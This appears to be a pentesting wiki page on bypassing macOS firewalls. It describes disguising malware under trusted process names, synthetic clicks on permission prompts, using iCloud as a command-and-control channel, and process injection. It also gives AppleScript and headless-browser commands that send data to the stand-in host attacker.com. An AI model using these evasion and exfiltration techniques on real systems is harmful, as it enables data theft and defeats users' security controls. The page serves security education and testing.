 # macOS Bypassing Firewalls
{{#include /banners/hacktricks-training.md}}


{{#include ../../banners/hacktricks-training.md}}

## Found techniques

The following techniques were found working in some macOS firewall apps.

### Abusing whitelist names

- For example calling the malware with names of well known macOS processes like **`launchd`**

### Synthetic Click

- If the firewall ask for permission to the user make the malware **click on allow**

### **Use Apple signed binaries**

- Like **`curl`**, but also others like **`whois`**

### Well known apple domains

The firewall could be allowing connections to well known apple domains such as **`apple.com`** or **`icloud.com`**. And iCloud could be used as a C2.

### Generic Bypass

Some ideas to try to bypass firewalls

### Check allowed traffic

Knowing the allowed traffic will help you identify potentially whitelisted domains or which applications are allowed to access them

```bash
lsof -i TCP -sTCP:ESTABLISHED
```

### Abusing DNS

DNS resolutions are done via **`mdnsreponder`** signed application which will probably vi allowed to contact DNS servers.

<figure><img src="../../images/image (468).png" alt="https://www.youtube.com/watch?v=UlT5KFTMn2k"><figcaption></figcaption></figure>

### Via Browser apps

- **oascript**

```applescript
tell application "Safari"
    run
    tell application "Finder" to set visible of process "Safari" to false
    make new document
    set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```

- Google Chrome

```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```

- Firefox

```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```

- Safari

```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```

### Via processes injections

If you can **inject code into a process** that is allowed to connect to any server you could bypass the firewall protections:

{{#ref}}
macos-proces-abuse/
{{#endref}}

## References

- [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)

{{#include ../../banners/hacktricks-training.md}}
